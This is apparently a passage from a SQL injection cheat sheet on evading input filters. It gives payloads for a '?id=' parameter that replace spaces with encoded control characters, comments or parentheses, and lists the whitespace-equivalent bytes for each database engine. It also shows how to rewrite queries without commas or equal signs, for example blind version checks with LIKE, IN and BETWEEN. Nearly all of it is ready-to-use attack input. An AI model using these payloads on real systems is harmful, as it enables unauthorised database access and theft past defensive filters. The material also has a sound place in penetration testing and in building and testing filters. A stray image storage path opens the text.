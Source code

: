 ```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

No Whitespace - bypass using comments

```sql
?id=1/*comment*/and/**/1=1/**/--
```

No Whitespace - bypass using parenthesis

```sql
?id=(1)and(1)=(1)--
```

Whitespace alternatives by DBMS
| DBMS | ASCII characters in hexadicimal |
| ---- | ------------------------------- |
| SQLite3 | 0A, 0D, 0C, 09, 20 |
| MySQL	5 | 09, 0A, 0B, 0C, 0D, A0, 20 |
| MySQL	3	| 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20, 7F, 80, 81, 88, 8D, 8F, 90, 98, 9D, A0 |
| PostgreSQL | 0A, 0D, 0C, 09, 20 |
| Oracle 11g | 00, 0A, 0D, 0C, 09, 20 |
| MSSQL | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20 |

Example of query where spaces were replaced by ascii characters above 0x80
```
♀SELECT§*⌂FROM☺users♫WHERE♂1☼=¶1‼
```
 
### No Comma
 
Bypass using OFFSET, FROM and JOIN

```sql
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

### No Equal

Bypass using LIKE/NOT IN/IN/BETWEEN

```sql
?id=1 and substring(version(),1,1)like(5)
?id=1 and substring(version(),1,1)not in(4,3)
?id=1 and substring(version(),1,1)in(4,3)
?id=1 and substring(version(),1,1) between 3 and 4
```
